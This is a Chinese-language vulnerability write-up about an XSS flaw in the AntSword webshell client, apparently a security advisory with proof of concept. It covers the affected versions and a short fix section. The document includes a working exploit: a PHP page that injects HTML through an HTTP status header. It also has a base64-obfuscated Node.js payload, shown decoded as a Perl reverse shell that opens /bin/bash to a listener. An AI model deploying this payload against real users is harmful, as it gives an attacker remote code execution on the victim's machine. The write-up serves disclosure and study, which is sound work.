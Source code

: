 ## 漏洞背景

2019.4.12, 有用户在中国蚁剑GitHub上提交了issue，称发现中国蚁剑存在XSS漏洞，借此可引起RCE。据悉，该漏洞是因为在webshell远程连接失败时，中国蚁剑会返回错误信息，但因为使用的是html解析，导致xss漏洞。

## 影响版本

AntSword < v2.0.7.1

## 漏洞详情

当通过中国蚁剑连接webshell，出现连接失败情况时，中国蚁剑会返回错误信息，如下图：
![]()

而该信息并没有进行 XSS 保护，因此能够利用 js 调用 perl 便可反弹攻击者的shell。
![]()

```
<?php header('HTTP/1.1 500 <img src=# onerror=alert(1)>');
```

反弹shell的exp (for perl)如下，使用base64编码：

```
<?php

header("HTTP/1.1 406 Not <img src=# onerror='eval(new Buffer(`cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ3BlcmwgLWUgXCd1c2UgU29ja2V0OyRpPSIxMjcuMC4wLjEiOyRwPTEwMDI7c29ja2V0KFMsUEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgidGNwIikpO2lmKGNvbm5lY3QoUyxzb2NrYWRkcl9pbigkcCxpbmV0X2F0b24oJGkpKSkpe29wZW4oU1RESU4sIj4mUyIpO29wZW4oU1RET1VULCI+JlMiKTtvcGVuKFNUREVSUiwiPiZTIik7ZXhlYygiL2Jpbi9iYXNoIC1pIik7fTtcJycsKGVycm9yLCBzdGRvdXQsIHN0ZGVycik9PnsKICAgIGFsZXJ0KGBzdGRvdXQ6ICR7c3Rkb3V0fWApOwogIH0pOw==`,`base64`).toString())'>");
?>
```

base64_decode code

```
require('child_process').exec('perl -e \'use Socket;$i="127.0.0.1";$p=1002;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};\'',(error, stdout, stderr)=>{
    alert(`stdout: ${stdout}`);
  });
```

成功反弹攻击者shell：
![]()

## 漏洞修复

在最新的版本中，为了防止插件中 toastr 出现类似问题, 修改了 toastr 可以输出 html 的特点，以后均不支持输出 html。
